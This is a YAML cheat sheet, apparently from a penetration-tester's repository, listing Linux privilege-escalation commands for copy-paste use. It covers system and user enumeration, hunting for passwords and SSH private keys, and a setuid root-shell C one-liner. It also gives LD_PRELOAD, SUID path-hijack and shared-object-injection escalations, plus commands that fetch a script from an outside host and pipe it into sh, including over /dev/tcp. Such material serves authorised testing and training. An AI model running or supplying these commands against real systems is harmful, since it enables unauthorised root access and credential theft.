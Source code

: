 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Feel free to copy paste the entire listing below
        System Info Enum:
        - [ ] uname -a
        - [ ] cat /etc/issue
        - [ ] cat /etc/*-release
        - [ ] cat /proc/version
        - [ ] lsb_release -a
        - [ ] ps aux
        - [ ] lscpu
        - [ ] env
        - [ ] echo $PATH
        - [ ] sudo -l
        - [ ] hostname
        - [ ] mount
        - [ ] dpkg -l
        - [ ] cat /etc/fstab
        - [ ] ssh -V
        - [ ] /bin/lsblk
        - [ ] lsmod
        - [ ] sudo -V
        - [ ] ls -al /etc/iptables/* -R
        - [ ] ls -lah /etc/cron*        

        User Enum:
        - [ ] whoami
        - [ ] id
        - [ ] cat /etc/passwd
        - [ ] cat /etc/group
        - [ ] history

        Network Enum:
        - [ ] ip a
        - [ ] ifconfig
        - [ ] /sbin/route
        - [ ] netstat -plant

        Task Scheduling:
        - [ ] cat /etc/crontab
        - [ ] systemctl list-timers --all
        - [ ] grep "CRON" /var/log/cron.log
        - [ ] Is CRON running but you can't tell what??  process monitoring (below script)
              nohup bash ./procmon.sh > procs.txt &
              cat procs.txt
          https://github.com/unkn0wnsyst3m/scripts/blob/master/procmon.sh

        File Systems #NoRootSquash
        - [ ] cat /etc/exports | grep no_root_squash
              showmount -e <targetip>  #mount -o rw,vers=2 <targetip>:<mountable-folder> <localmount>
              echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c
              gcc shell.c -o shell
              chmod +s+x shell

        Password Hunting:
        - [ ] grep --color=auto -rnw '/' -ie "PASSWORD=" 2>/dev/null
        - [ ] locate pass | more
        - [ ] find / -name id_rsa 2>/dev/null
        - [ ] find . -type f -exec grep --color=auto -Hrnwie "PASSWORD" {} 2> /dev/null \;  #search specific folders
        - [ ] find / -iname *passw* 2>/dev/null
        - [ ] find / -iname *passw* 2>/dev/null | grep -v -E "/lib/systemd/|boot|/var/lib/dpkg/|/usr/share/|/usr/lib/"

        LD_PRELOAD:
        - [ ] sudo -l  #--> is LD_PRELOAD in the sudo permissions?
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell_ldpreload.c
          gcc -fPIC -shared shell.c -o shell.so -nostartfiles

          sudo LD_PRELOAD=/home/user/shell.so <BIN IN SUDO -l>

        SUID:
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null

        SUID CHILD PATH BINARY TAKEOVER:
        strings /usr/local/bin/suid-env2
            --> /usr/sbin/service apache2 start
        function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s+x /tmp/bash && /tmp/bash -p; }
        export -f /usr/sbin/service
        execute - /usr/local/bin/suid-env2

        CAPABILITIES:
        - [ ] getcap -r / 2>/dev/null

        SHARED OBJECT INJECTION:
        - [ ] strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
            --> open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell.c
          gcc -fPIC -shared shell.c -o /home/user/.config/libcalc.so -nostartfiles

          run setuid_bin

        FILE PERMISSION SEARCHING:
        - [ ] find / -type f -perm -2 2>/dev/null | grep -v "^/proc/"                     #world writable
        - [ ] find / -user root -perm -002 -type f 2>/dev/null | grep -v "^/proc/"     #world writable ownd by root
        - [ ] ls -al $(find / -perm -1000 -type d 2>/dev/null)   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        - [ ] ls -al $(find / -perm -g=s -type f 2>/dev/null)    # SGID (chmod 2000) - run as the group, not the user who started it.
        - [ ] ls -al $(find / -perm -u=s -type f 2>/dev/null)    # SUID (chmod 4000) - run as the owner, not the user who started it.
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null
        - [ ] find / -xdev -user root -perm -o+w -type f 2>/dev/null
        - [ ] find / -xdev -group admin -perm -o+w -type f 2>/dev/null
        

        QUICK WINS:
        - [ ] dpkg -l | grep nginx  # l.6.2 nginx (and earlier) and writable log dir with sudo suid CVE-2016-1247
          https://github.com/unkn0wnsyst3m/scripts/blob/master/nginx-CVE-2016-1247.sh
        - [ ] ps aux | grep mysqld  # running as root?
          https://mfnttps.github.io/mfnttps/mysql-code_exec/
        - [ ] cat /etc/exports | grep no_root_squash  #see above
        - [ ] groups | grep docker && ls -al /var/run/docker.sock
          https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket

    - description: LinPeas
      code: |
        curl http://10.10.10.10/linpeas.sh | sh
        cd /tmp; wget http://10.10.10.10/linpeas.sh && sh linpeas.sh

        sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
        cat < /dev/tcp/10.10.10.10/80 | sh #Victim

        # Output to file
        ./linpeas.sh -a > /dev/shm/linpeas.txt

    - description: Linux Exploit Suggester
      code: |
        perl linux-exploit-suggester.pl

          #############################
            Linux Exploit Suggester 2
          #############################

          Local Kernel: 2.6.32
          Searching 72 exploits...

          Possible Exploits
          [1] american-sign-language
              CVE-2010-4347
              Source: http://www.securityfocus.com/bid/45408
          [2] can_bcm
              CVE-2010-2959
              Source: http://www.exploit-db.com/exploits/14814

        ...
        ...

        Use the -k flag to manually enter a wildcard for the kernel/operating system release version.
        perl linux-exploit-suggester.pl -k 3



resources: |
  https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl
  https://github.com/SecWiki/linux-kernel-exploits
  https://github.com/lucyoa/kernel-exploits
  https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
  #c-shell: echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c 
  #script: cp /bin/bash /tmp/shell && chmod +s /tmp/shell && chmod o+x /tmp/shell
---
```


